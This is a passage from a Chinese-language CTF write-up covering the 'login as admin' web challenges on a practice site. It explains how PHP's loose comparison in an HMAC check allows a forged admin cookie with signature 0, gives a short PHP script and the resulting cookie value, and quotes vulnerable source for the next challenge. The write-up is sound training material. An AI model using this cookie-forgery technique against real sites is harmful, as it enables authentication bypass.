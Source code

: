 ```php
···
<?php if($user['admin']) printf("<code>%s</code>", htmlentities($flag)); ?>
```

```hash_hmac('sha512', $unserialized['data'], $secret) != $unserialized['sig']```这一语句使用了non-strict比较，因此只要使得这里的```$unserialized['sig']```为0即可。这个```$unserialized```是从cookie中取得的，因此只要按照函数```set_user```的步骤，构造一个sig为0，user['admin']为true（打印出flag的条件）的data即可。

```php
<?php
function set_user()

{

    $user = ['admin',true];

    $data = json_encode($user);

    $sig = 0;

    $all = base64_encode(json_encode(['sig' => $sig, 'data' => $data]));

    echo $all;

}

set_user();
?>
```

得到了“eyJzaWciOjAsImRhdGEiOiJbXCJhZG1pblwiLHRydWVdIn0=”。因此只需要在cookie后面加上“user=eyJzaWciOjAsImRhdGEiOiJbXCJhZG1pblwiLHRydWVdIn0=”即可。方法是使用burpsuite代理，开启intercept，然后直接在上面修改cookie，添加上述内容，再forward即可。然后在页面上就能看到本题的 flag了。


## 23. [login as admin 4](https://hackme.inndy.tw/login4/) (Web)

先看给出的source code：

```php
<?php
require('config.php');

if($_GET['show_source'] === '1') {
    highlight_file(__FILE__);
    exit;
}

if($_POST['name'] === 'admin') {
    if($_POST['password'] !== $password) {
        // show failed message if you input wrong password
        header('Location: ./?failed=1');
    }
}
?>
···
<?php if($_GET['failed'] == '1'): ?>
            <div class="alert alert-danger">Login failed</div>
<?php endif; ?>

<?php if($_POST['name'] === 'admin'): /* login success! */ ?>
            <div class="alert alert-success"><code><?=$flag?></code></div>
<?php else: ?>
···
```
